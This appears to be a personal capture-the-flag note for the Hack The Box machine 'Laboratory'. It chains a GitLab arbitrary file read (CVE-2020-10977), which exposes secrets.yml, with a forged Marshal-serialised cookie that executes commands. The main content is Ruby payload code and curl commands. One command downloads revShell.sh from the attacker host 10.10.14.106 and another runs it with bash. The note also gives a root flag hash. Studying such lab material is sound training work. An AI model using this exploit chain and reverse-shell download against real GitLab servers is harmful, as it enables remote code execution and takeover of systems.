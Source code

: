 # Laboratory
```
EXPORT_IP = 10.10.10.216
```
#### SCAN 
- Reference : nmap/initial

#### Reconnissance
- [x] INRESTING 
  - ssl-cert: Subject: commonName=laboratory.htb
  - Subject Alternative Name: DNS:git.laboratory.htb

#### gitlab Enumeration
```
1. Gitlab Sign in -> (username:me , password:12345678)

2. cve_2020_10977.py (Arbitary File Read)
 - Usage
   - python3 cve_2020_10977.py http://git.laboratory.htb/user/sign_in username password

```
- Reference : https://hackerone.com/reports/827052
 - GITLAB_SECRET_FILE : /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml 


#### gitlab ENV
```
1. gitlab build local Enviorment Build 
2. Google Search
```

> Local GitLab Cookie
> Exec-Command : `curl 10.10.14.106:8000/revShell.sh -o /tmp/revShell.sh`
```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= {Exec-Command} %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr

puts cookies[:cookie]
```
- COPY & PASTE Cookie Field : [COOKIE-COPY]


#### Gaining Access Payload
```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash /tmp/revShell.sh` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
> GAINING PAYLOAD
>> curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=[COOKIE-COPY-PASTE]5" -k


#### USER ESCALATE 
```

```

#### ROOT ESCALATE
```
root_flag : 328f9b5f2526a38bd9440e03d24fee9c
```

#### Reference 
 - ytb user flag : https://www.youtube.com/watch?v=ns7Xl4t8sxQ
 - ytb root flag : https://www.youtube.com/watch?v=67RvQNTiXE0